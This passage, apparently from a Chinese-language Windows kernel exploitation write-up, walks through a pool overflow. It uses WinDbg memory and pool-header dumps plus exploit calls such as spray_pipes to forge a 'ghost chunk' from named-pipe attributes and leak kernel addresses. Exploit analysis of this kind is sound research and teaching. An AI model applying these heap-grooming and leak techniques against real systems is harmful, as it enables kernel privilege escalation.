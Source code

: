 ```
   //PreviousSize被设置为0x15,ffffad09df3f8bd0-(0x15*0x10)就是接下来要伪造的幽灵块
   +0x000 PreviousSize     : 0y00010101 (0x15)
   +0x000 PoolIndex        : 0y00000000 (0)
   +0x002 BlockSize        : 0y00000000 (0)
   +0x002 PoolType         : 0y00000100 (0x4)
   +0x000 Ulong1           : 0x4000015
   //CacheAligned置位,0x7441704e&4!=0
   +0x004 PoolTag          : 0x7441704e
   +0x008 ProcessBilled    : (null) 
   +0x008 AllocatorBackTraceIndex : 0
   +0x00a PoolTagHash      : 0
1: kd> dc poi(g_Buffer)-10 L100;
ffffad09`df3f8a40  03190000 4e4c5556 00000000 00000000  ....VULN........
ffffad09`df3f8a50  44444444 44444444 44444444 44444444  DDDDDDDDDDDDDDDD
...
ffffad09`df3f8bc0  44444444 44444444 44444444 44444444  DDDDDDDDDDDDDDDD
ffffad09`df3f8bd0  04000015 7441704e 00000000 00000000  ....NpAt........
ffffad09`df3f8be0  df8d6ad0 ffffad09 df8d6ad0 ffffad09  .j.......j......
ffffad09`df3f8bf0  df3f8c08 ffffad09 00000156 00000000  ..?.....V.......   
//ValueSize=0x156,AttributeName是ffffad09`df3f8c08还有AttributeValue是ffffad09`df3f8c0a
ffffad09`df3f8c00  df3f8c0a ffffad09 4141005a 41414141  ..?.....Z.AAAAAA
ffffad09`df3f8c10  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
ffffad09`df3f8c20  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
ffffad09`df3f8c30  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
ffffad09`df3f8c40  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
ffffad09`df3f8c50  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
ffffad09`df3f8c60  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA 
spray_pipes(xploit->respray);//被执行
```
就是接下来要伪造的幽灵块在漏洞块+0x30的位置,使用一个pipe_attribute结构体占位,pipe_attribute->ValueSize=0x1d6+ATTRIBUTE_NAME_LEN加上sizeof(pipe_attribute)也正好是幽灵块的大小0x210
```
//在xploit->alloc_ghost_chunk(xploit, attribute);执行之后
0: kd> dc poi(g_Buffer)-10 L100;
ffffad09`df3f8a40  03190000 7441704e 00000000 00000000  ....NpAt........
ffffad09`df3f8a50  dfd73cb0 ffffad09 dfd73cb0 ffffad09  .<.......<......
ffffad09`df3f8a60  df3f8a78 ffffad09 00000156 00000000  x.?.....V.......
ffffad09`df3f8a70  df3f8a7a ffffad09 4242005a 42424242  z.?.....Z.BBBBBB
ffffad09`df3f8a80  03217d00 7441704e 42424242 42424242  .}!.NpAtBBBBBBBB
//pipe_attribute->list.Flink指向一个正常的pipe_attribute结构体,就是 xploit->leak_root_attribute
ffffad09`df3f8a90  df8c7ad0 ffffad09 df8c7ad0 ffffad09  .z.......z......
//ValueSize=0x1d6,AttributeName是ffffad09`df3f8ab8还有AttributeValue是ffffad09`df3f8aba
ffffad09`df3f8aa0  df3f8ab8 ffffad09 000001d6 00000000  ..?.............
ffffad09`df3f8ab0  df3f8aba ffffad09 4343005a 43434343  ..?.....Z.CCCCCC
0: kd> dt nt!_pool_header poi(g_Buffer)+30=ffffad09`df3f8a80
   +0x000 PreviousSize     : 0y00000000 (0)
   +0x000 PoolIndex        : 0y01111101 (0x7d)
//pipe_attribute->ValueSize=0x1d6加上sizeof(pipe_attribute)也正好是幽灵块的大小0x210  
   +0x002 BlockSize        : 0y00100001 (0x21)
   +0x002 PoolType         : 0y00000011 (0x3)
   +0x000 Ulong1           : 0x3217d00
   +0x004 PoolTag          : 0x7441704e
   +0x008 ProcessBilled    : 0x42424242`42424242 _EPROCESS
   +0x008 AllocatorBackTraceIndex : 0x4242
   +0x00a PoolTagHash      : 0x4242
```	
由于我们获得了可控pipe_attribute结构体内容的幽灵块和可覆盖pipe_attribute结构体内所在内存的起始位置数据的漏洞块,通过读取这片泄露的内存,就可以计算出幽灵块的真实地址和一个泄露正常的pipe_attribute结构体.
公式如下:

